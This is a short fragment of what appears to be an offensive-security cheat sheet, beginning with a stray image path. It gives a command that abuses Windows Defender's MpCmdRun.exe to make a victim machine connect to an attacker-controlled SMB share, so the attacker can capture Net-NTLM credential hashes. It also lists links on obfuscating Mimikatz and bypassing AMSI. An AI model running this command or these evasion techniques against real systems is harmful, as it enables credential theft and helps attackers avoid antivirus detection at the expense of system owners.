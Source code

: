 Coerce the victim machine to reach the attacker \(to steal Net-NTLM\):

```text
Cmd > C:\PROGRA~1\WINDOW~1\MpCmdRun.exe -Scan -ScanType 3 -File '\\10.10.13.37\share\file'
```

## Obfuscate Mimikatz

* [https://s3cur3th1ssh1t.github.io/Bypass-AMSI-by-manual-modification-part-II/](https://s3cur3th1ssh1t.github.io/Bypass-AMSI-by-manual-modification-part-II/)
* [https://s3cur3th1ssh1t.github.io/Building-a-custom-Mimikatz-binary/](https://s3cur3th1ssh1t.github.io/Building-a-custom-Mimikatz-binary/)

